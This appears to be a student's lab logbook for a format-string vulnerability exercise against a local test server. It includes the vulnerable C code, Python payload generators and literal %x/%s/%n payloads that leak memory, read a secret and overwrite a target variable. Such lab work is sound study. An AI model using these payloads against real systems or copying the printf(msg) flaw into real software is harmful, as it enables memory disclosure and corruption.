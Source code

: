 # Logbook 7
```c
unsigned int target = 0x11223344;
char *secret = "A secret message\n";
void myprintf(char *msg)
{
// This line has a format-string vulnerability
printf(msg);
}
int main(int argc, char **argv)
{
char buf[1500];
int length = fread(buf, sizeof(char), 1500, stdin);
printf("Input size: %d\n", length);
myprintf(buf);
return 1;
}
```
## Pre steps
- We executed the make file in servers

![Alt text](Images/1image-1.png)

 - We then built the docker

![Alt text](Images/1image.png)

 - In the next step we run the code that starts the server 

![Alt text](Images/image-1.png)

## Task 1
 - We tested the server using this code that was provided in the guide that sends Hello world to the server to the port 10.9.0.5 9090

![Alt text](Images/1image-2.png)

 - The output the server can shows a lot of stuff like it return properly and data that we will need in the next exercice

![Alt text](Images/1image-3.png)

To crach the server we simply ran the this code that makes echo of %s using this code the server will try to access a string with an address mostly invalid wich will crach the printf

![Alt text](Images/1image-4.png)

We can check that the function crashed because it didnt print the smiles

![Alt text](Images/1image-5.png)

## Task 2 A
To check how many %x we can put in the input until we used this code to check when we can see 41 wich is hechadecimal to A we used this file with the name Payload2.txt
```txt
AAAA %x - %x - %x - %x - %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x -A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - A %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x - %x -1 %x
```

We can see four 41 in the last print of the server we needed 63 %x to get to the top of the input

![Alt text](Images/1image-6.png)

## Task 2 B
To use we used this code wich was already mostly done with the name buil_string.py and we changed a little bit of the code 
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   63 of "%.8x", concatenated with a "%n"
s = "%.8x"*63 + "%s"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

```
We runned the python code

![Alt text](Images/1image-8.png)

We executed the attack like this

![Alt text](Images/1image-7.png)

The output of the server was a success

![Alt text](Images/1image-9.png)

## Task 3 A

 - To change the memory in the addres we ran the previous python code that gives the address in binary 
 ```
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

 ```
  - we add abcd next to the address and the 63 %x and we have our payload


 ```
hPabcd%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%n
 ```

 - We ran it and we got this response from the server

![Alt text](Images/1image-11.png)

### Task 3 B

 - In this exercice we will make a little change we need to change the variable to 0x5000 wich is 20480 give that he %n counts how many bytes where writen we need to put in the printf 20480 - 4 (for the 4 characters writeen) - 8 * 62(each %.16x prints 16 characters) so we get 20480 - 16 *62 - 4 =  19484
 ```python
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
#content[4:8]  =  ("19900").encode('latin-1')

# This line shows how to construct a string s with
#20480 - 62 * 16 - 4= 19484
s = "%.16x"*62 + "%.19484x%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)

 ```
 - This is the payload generated by the code with the address in the start is the address of the target variable and the value written in that palce is 16 * 62 + 19484 +4 = 20480 wich is 5000 in exadecimal
 ```
 hP%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.16x%.19484x%n
 ```
 - Here is the result of th output the target variable is changed to 0x00005000

 ![Alt text](Images/1image-12.png)

